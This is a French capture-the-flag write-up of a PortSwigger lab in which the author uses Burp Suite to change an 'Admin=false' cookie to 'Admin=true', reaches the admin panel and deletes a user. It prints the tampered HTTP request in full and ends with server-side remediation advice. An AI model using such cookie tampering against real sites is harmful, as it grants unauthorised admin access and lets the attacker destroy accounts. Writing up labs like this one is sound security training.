# Lab: User role controlled by request parameter

> **CTF :** PORTSWIGGER  

> **Catégorie :** Access control  

> **Difficulté :** APPRENTICE  

> **Points :** ✅  

> **Date :** 26/07/2026  

> **Statut :** ✅ Résolu

---

## 📌 Description du Challenge

> *This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie.
Solve the lab by accessing the admin panel and using it to delete the user carlos.
You can log in to your own account using the following credentials: wiener:peter*

---

## 🎯 Objectif

Résoudre le laboratoire en accédant au panneau d'administration et en l'utilisant pour supprimer l'utilisateur carlos
---

## 🔍 Reconnaissance

- Commençons d'abord par nous connecter à notre compte utilisateur.

**Outils utilisés :**
- Burp Suite  

**Observations :**
- L'interception du trafic HTTP au moment de l'authentification a mis en évidence la présence d'un paramètre (ou cookie) nommé Admin=false au sein de la requête de connexion.

---

## 🧠 Hypothèse

 Les observations techniques confirment l'existence d'une vulnérabilité d'escalade de privilèges verticale. L'application se base sur un paramètre modifiable côté client pour accorder ou restreindre les droits d'administration.

---

## ⚔️ Exploitation

### Étape 1 — 

- Connectons-nous à notre compte personnel wiener. 

---

- Actualisons la page de notre compte personnel et interceptons les requêtes.




---

### Étape 2 — Send to Repeater



---

### Étape 3 — changer false en true

-  Modifions le paramètre de Admin=false à Admin=true pour passer d'un compte utilisateur simple à un compte administrateur.

**Payload utilisé :**
```http
GET /my-account?id=wiener HTTP/1.1
Host: 0aec00d30477caff80ca1217008c0094.web-security-academy.net
Cookie: session=3NwKgwrBB1TCPGEIkbYgvP5iATu4sSPW; Admin=true
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0aec00d30477caff80ca1217008c0094.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

**Résultat :**
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3406

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
```

---  



-  Suite à la modification du paramètre, l'interface utilisateur s'est mise à jour, rendant visible l'onglet de gestion restreint « Admin panel » sur un compte initialement dépourvu de privilèges. 
---  
- Naviguer vers l'onglet « Admin panel ».
- Intercepter la requête HTTP correspondante à l'aide de Burp Suite.
- Modifier systématiquement le paramètre Admin=false par Admin=true avant de transmettre la requête au serveur, permettant ainsi de contourner le contrôle d'accès.
  


- L'accès à cette interface permet de lister l'intégralité des comptes utilisateurs enregistrés sur l'application.  

---
1. Déclencher l'action de suppression de l'utilisateur cible depuis l'interface graphique.

2. Intercepter la requête HTTP correspondante (POST ou GET) dans le proxy Burp Suite.

3. Injecter la charge utile en modifiant le paramètre Admin=false par Admin=true afin de forcer l'autorisation de la commande côté serveur.

4. Transmettre la requête modifiée.

## 🚩 Flag



---

## 🛡️ Remédiation

La vulnérabilité provient du fait que l'application fait aveuglément confiance à un paramètre envoyé par le navigateur de l'utilisateur (Admin=true/false) pour accorder des droits d'accès. Pour corriger cela, appliquez les mesures suivantes :

- Gestion des rôles côté serveur (Impératif) : Le statut d'administrateur ne doit jamais transiter ou être modifiable dans les requêtes HTTP de l'utilisateur. Les privilèges d'un compte doivent être stockés de manière sécurisée sur le serveur (en base de données) et vérifiés à travers une session HTTP chiffrée et non modifiable.  
- Contrôle d'accès strict à chaque action : Pour chaque action critique (comme l'affichage de la page d'administration ou la suppression d'un compte), le code côté serveur doit vérifier si l'identifiant de session correspond réellement à un administrateur authentifié. Si ce n'est pas le cas, la requête doit être immédiatement rejetée avec un code d'erreur 403 Forbidden.
---

## 💡 Points Clés à Retenir

- Ce scénario met en lumière un concept fondamental de la sécurité applicative : la séparation absolue entre les données de présentation (côté client) et la logique de contrôle (côté serveur).L'affichage d'un bouton ou d'un onglet sur un navigateur n'est qu'une commodité visuelle pour l'utilisateur. La véritable sécurité doit être appliquée de manière centralisée et systématique sur le serveur. Si un paramètre client suffit à modifier le comportement de sécurité d'une application, le système est considéré comme intrinsèquement vulnérable.
---

## 📚 Références

- [PortSwigger —  Lab: User role controlled by request parameter](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*  

*PORTSWIGGER🌍*
